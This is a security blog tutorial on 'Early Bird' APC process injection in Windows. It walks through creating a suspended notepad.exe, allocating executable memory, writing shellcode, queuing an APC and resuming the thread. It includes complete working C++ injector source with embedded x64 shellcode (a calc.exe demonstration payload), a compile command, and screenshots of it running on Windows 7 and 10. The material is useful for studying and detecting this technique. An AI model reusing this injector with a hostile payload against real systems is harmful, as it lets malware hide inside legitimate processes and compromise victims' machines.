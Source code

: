 ```yaml
---
title:  "APC injection technique. Simple C++ malware."
date:   2021-11-11 10:00:00 +0600
header:
  teaser: "/assets/images/21/2021-11-11_14-32.png"
categories: 
  - tutorial
tags:
  - APC injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![APC injection](/assets/images/21/2021-11-11_14-32.png){:class="img-responsive"}

This post is a Proof of Concept and is for educational purposes only.   
Author takes no responsibility of any damage you cause.      

In [this](/tutorial/2021/09/18/malware-injection-1.html) post I wrote about classic code injection, and in [another](/tutorial/2021/09/20/malware-injection-2.html) post I wrote about classic DLL injection.     

Today I will discuss about a "Early Bird" APC injection technique. Today we're going to look at [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) which takes advantage of the asynchronous procedure call to queue a specific thread.      

Each thread has its own APC queue. An application queues an APC to a thread by calling the QueueUserAPC function. The calling thread specifies the address of an APC function in the call to QueueUserAPC. The queuing of an APC is a request for the thread to call the APC function.    

High level overview of this technique is:       
Firstly, our malicious program creates a new legitimate process (in our case `notepad.exe`):       
![APC 1](/assets/images/21/apc-1.png){:class="img-responsive"}          

![APC injection 2](/assets/images/21/2021-11-11_15-09.png){:class="img-responsive"}

Whenever we see a call to `CreateProcess`, two important parameters we want to pay attention to are the first (executable to be invoked), and sixth (process creation flags). The creation flag is `CREATE_SUSPENDED`.        

Then, memory for payload is allocated in the newly created process's memory space:     
![APC 2](/assets/images/21/apc-2.png){:class="img-responsive"}         

![APC injection 3](/assets/images/21/2021-11-11_15-12.png){:class="img-responsive"}

As I wrote earlier in previous posts, there is a very important difference between `VirtualAlloc` and `VirtualAllocEx`. The former will allocate memory in the calling process, the latter will allocate memory in a remote process. So if we see malware call `VirtualAllocEx`, there more than likely will be some kind of cross process activity about to commence.

[APC](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) routine pointing to the shellcode is declared.    
Then payload is written to the allocated memory:
![APC 3](/assets/images/21/apc-3.png){:class="img-responsive"}         

APC is queued to the main thread which is currently in suspended state:     
![APC 4](/assets/images/21/apc-4.png){:class="img-responsive"}    

![APC injection 4](/assets/images/21/2021-11-11_15-13.png){:class="img-responsive"}

Finally, thread is resumed and our payload is executed:
![APC 5](/assets/images/21/apc-5.png){:class="img-responsive"}    

![APC injection 5](/assets/images/21/2021-11-11_15-14.png){:class="img-responsive"}

So, our full source code is (`evil.cpp`):      
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

As you can see for simplicity, we use 64-bit `calc.exe` as the payload. Without delving into the generation of the payload, we will simply insert payload into our code:
```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Let's go to compile:
```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![APC injection 6](/assets/images/21/2021-11-11_15-18.png){:class="img-responsive"}

Let's go to launch a `evil.exe` on windows 7 x64:

![APC injection 7](/assets/images/21/2021-11-11_15-24.png){:class="img-responsive"}

If we check the newly started `notepad.exe` in the Process Hacker, we can confirm that the main thread is indeed suspended:     

![APC injection 8](/assets/images/21/2021-11-11_15-51.png){:class="img-responsive"}

> As you can see, `WaitForSingleObject` function second parameter is `30000` for demonstration, in real-world scenario it's not so big.        

Our `evil.exe` is also worked in `windows 10 x64`:     
![APC injection 9](/assets/images/21/2021-11-11_14-29.png){:class="img-responsive"}


[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)        
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)     
[ZeroMemory](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366920(v=vs.85))            
[Source code in Github](https://github.com/cocomelonc/2021-11-11-malware-injection-3)         

In the future I will try to figure out more advanced code injection techniques.

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*